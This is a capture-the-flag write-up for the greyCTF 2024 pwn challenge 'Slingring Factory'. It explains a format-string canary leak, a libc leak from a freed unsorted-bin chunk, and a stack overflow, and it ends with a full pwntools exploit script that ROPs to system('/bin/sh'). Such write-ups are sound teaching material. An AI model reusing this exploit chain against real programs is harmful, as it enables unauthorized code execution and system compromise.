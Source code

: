 ```yaml
---
title: Slingring Factory
date: 2024-04-23
tags: 
- pwn
- format string
- buffer overflow
- heap
- ret2libc
- rop
- author-hartmannsyg
categories: greyCTF 2024
---
```


written by {% person hartmannsyg %} (solved by {% person hartmannsyg %} and {% person fs %})

>In following Greycat's adventures, you have stumbled upon a factory that produces weirdly-shaped rings. Upon closer inspection, you realise that the rings seem very familiar -- they looked exactly like the Sling Rings you saw from the Marvel Comics universe! Having some time leftover, you decide to explore the factory. Alas, you eventually come to realise that these Sling Rings were in fact not the same as those you knew: during forging, their destinations have to already be set. You wonder what you could do with these rings...<br>
>Author: uhg
>`nc challs.nusgreyhats.org 35678`

This was like an Avengers:Endgame level of collab solve, mainly because there are like many puzzle pieces to put together.

> Actually now that I think about it, slingrings did show up in Avengers:Endgame

{% ccb terminal:true html:true %}
<SPAN STYLE="color:#98C379;">┌──(</SPAN><SPAN STYLE="color:#61AFEF;">rwandi㉿ryan</SPAN><SPAN STYLE="color:#98C379;">)-[</SPAN><SPAN STYLE="color:#DCDFE4;">~/ctf/grey/slingring-factory</SPAN><SPAN STYLE="color:#98C379;">]
└─</SPAN><SPAN STYLE="color:#61AFEF;">$</SPAN><SPAN STYLE="color:#DCDFE4;"> checksec slingring_factory
[</SPAN><SPAN STYLE="color:#61AFEF;">*</SPAN><SPAN STYLE="color:#DCDFE4;">] '/home/rwandi/ctf/grey/slingring-factory/slingring_factory'
    Arch:       amd64-64-little
    RELRO:      </SPAN><SPAN STYLE="color:#98C379;">Full RELRO
</SPAN><SPAN STYLE="color:#DCDFE4;">    Stack:      </SPAN><SPAN STYLE="color:#98C379;">Canary found
</SPAN><SPAN STYLE="color:#DCDFE4;">    NX:         </SPAN><SPAN STYLE="color:#98C379;">NX enabled
</SPAN><SPAN STYLE="color:#DCDFE4;">    PIE:        </SPAN><SPAN STYLE="color:#98C379;">PIE enabled
</SPAN><SPAN STYLE="color:#DCDFE4;">    SHSTK:      </SPAN><SPAN STYLE="color:#98C379;">Enabled
</SPAN><SPAN STYLE="color:#DCDFE4;">    IBT:        </SPAN><SPAN STYLE="color:#98C379;">Enabled
</SPAN><SPAN STYLE="color:#DCDFE4;">    Stripped:   </SPAN><SPAN STYLE="color:#E06C75;">No</SPAN>
{% endccb %}

We see that we basically have all security checks enabled, so the challenge won't be something trivial.

## Vulnerabities

Right off the bat, we have a format string vuln:

{% ccb lang:c highlight:13 gutter1:1-22 %}
undefined8 main(void)

{
  long in_FS_OFFSET;
  char name [6];
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  setup();
  puts("What is your name?");
  fgets(name,6,stdin);
  printf("Hello, ");
  printf(name);
  putchar(L'\n');
  fflush(stdin);
  menu();
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
{% endccb %}

The program then calls `menu()`:

```c
void menu(void)

{
  int iVar1;
  long in_FS_OFFSET;
  char local_14 [4];
  undefined8 canary;
  
  canary = *(undefined8 *)(in_FS_OFFSET + 0x28);
LAB_001018e9:
  cls();
  puts("\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n");
  puts("Welcome to my secret sling ring factory.");
  puts("What do you want to do today?\n");
  puts("1. Show Forged Rings");
  puts("2. Forge Sling Ring");
  puts("3. Discard Sling Ring");
  puts("4. Use Sling Ring");
  printf(">> ");
  fgets(local_14,4,stdin);
  fflush(stdin);
  putchar(10);
  iVar1 = atoi(local_14);
  if (iVar1 == 4) {
    use_slingring();
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  if (iVar1 < 5) {
    if (iVar1 == 3) {
      discard_slingring();
      goto LAB_001018e9;
    }
    if (iVar1 < 4) {
      if (iVar1 == 1) {
        show_slingrings();
      }
      else {
        if (iVar1 != 2) goto LAB_00101a05;
        forge_slingring();
      }
      goto LAB_001018e9;
    }
  }
LAB_00101a05:
  puts("Invalid input!");
  puts("Press ENTER to go back...");
  getchar();
  goto LAB_001018e9;
}
```

We are able to create (forge), read (show), *use* (???) and delete (discard) slingrings? Also this "CRUD functionality" just *reeks* of a heap challenge (oh no)

The `forge_slingring()`, `show_slingrings()` and `discard_slingring()` methods are about what we would expect (glorified `malloc(0x84)`, read, `free()`), except that `show_slingrings()` allow us to read the contents of discarded rings (i.e. freed chunks). 

This basically gives us a libc leak via unsorted bins. The crux of this exploit is that unsorted bins contain an address within libc when we can use to get the libc base. For us to create a freed chunk within an unsorted bin:

- Fill up tcache
    > Each bin contains a maximum of 7 same-size chunks ranging from 24 to 1032 bytes on 64-bit systems and 12 to 516 bytes on 32-bit systems.<br>
    > from https://azeria-labs.com/heap-exploitation-part-2-glibc-heap-free-bins/
    So we need to free() 7 other chunks before we can get an unsortedbin
- The chunk's size is big enough that it does not go into the fastbin
    Since a chunk size of 0x90, (0x84 gets rounded up to 0x90, or 144) is greater than the fastbin max size of 88, our freed bin will not be in the fastbin.
- Ensure there are no neighboring freed chunks in the small, large and unsorted bins
    When we fill up tcache, there are no other bins other than tcache bins, so we can create an unsorted bin
- Ensure that our chunk is not next to the top chunk
    If not, it will get merged with the top chunk. As long as there is a chunk between the freed bin and the top chunk, this will not happen.

(There are other checks involved but these are the more relevant ones)

Now let's look at the sus "use" functionality:

{% ccb lang:c gutter1:1-23 highlight:6,15 %}
void use_slingring(void)

{
  long in_FS_OFFSET;
  char ring [4];
  char spell [56];
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  printf("Which ring would you like to use (id): ");
  fgets(ring,4,stdin);
  fflush(stdin);
  atoi(ring);
  printf("\nPlease enter the spell: ");
  fgets(spell,0x100,stdin);
  puts("\nThank you for visiting our factory! We will now transport you.");
  puts("\nTransporting...");
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
{% endccb %}

We have a buffer overflow as we are reading 0x100 bytes into a buffer (`spell`) of size 56.

## Putting it all together

We have a format string vuln, but we have PIE and ASLR so we need a leak somewhere to use it for an arb write, and we can only use it once right at the very start. We have a libc leak, but only after our format string vuln. We have a buffer overflow, but there is canary protections. After a lot of thinking, we realized we could leak the canary from the format string vulnerability, so we made a game plan:

- leak canary with format string vulnerabitiy
    canaries are shared across all functions so the canary that was leaked in the `main()` function will be the same as the canary in `use_slingring()`
- leak libc by reading an unsorted bin
- ROP `system("/bin/sh")` with the buffer overflow in `use_slingring()`

{% ccb lang:py gutter1:1-2,S,15-69 %}
from pwn import *

//SKIP_LINE:(3-14 # Intialize process code) 

p.sendlineafter(b'What is your name?', '%27$p') # offset to canary is 27

p.recvuntil(b'Hello, ')
canary = p.recvline()
canary = int(canary, 16)
info(f'canary @ {hex(canary)}')

p.sendline() # idk why this is needed

def forge(slot, location, amount):
    p.sendlineafter(b">> ", b"2")
    p.sendlineafter(b'Which slot do you want to store it in? (0-9)', str(slot).encode())
    p.sendlineafter(b'Enter destination location:', location)
    p.sendlineafter(b'Enter amount of rings you want to forge (1-9):', str(amount).encode())
    p.sendlineafter(b'Press ENTER to return.', b'')

def discard(slot):
    p.sendlineafter(b">> ", b"3")
    p.sendlineafter(b"Which ring would you like to discard?", str(slot).encode())


for i in range(10):
    forge(i, b'a', 1)

for i in range(8):
    discard(i)

p.sendlineafter(b">> ", b"1")
p.recvuntil(b'Ring Slot #7  |')
line = p.recvline()
main_arena = line.split(b'| ')[1]
main_arena = u64(main_arena[:6]+b'\x00\x00')
info(hex(main_arena))
libc_base = main_arena - 0x21ace0
libc=elf.libc
libc.address=libc_base

info(f'libc base @ {hex(libc_base)}')

p.sendlineafter(b'Press ENTER to return.', b'')

binsh = libc.search(b"/bin/sh").__next__()
info(f'/bin/sh @ {hex(binsh)}')

rdi = libc_base + 0x000000000002a3e5
ret = libc_base + 0x0000000000029139

payload = b"A"*56 + p64(canary) + b"A"*8 + p64(rdi) + p64(binsh) + p64(ret) + p64(libc.sym['system'])

p.sendlineafter(b">> ", b"4")
p.sendlineafter(b"(id): ", b"0")
p.sendlineafter(b"spell: ", payload)

p.interactive()
{% endccb %}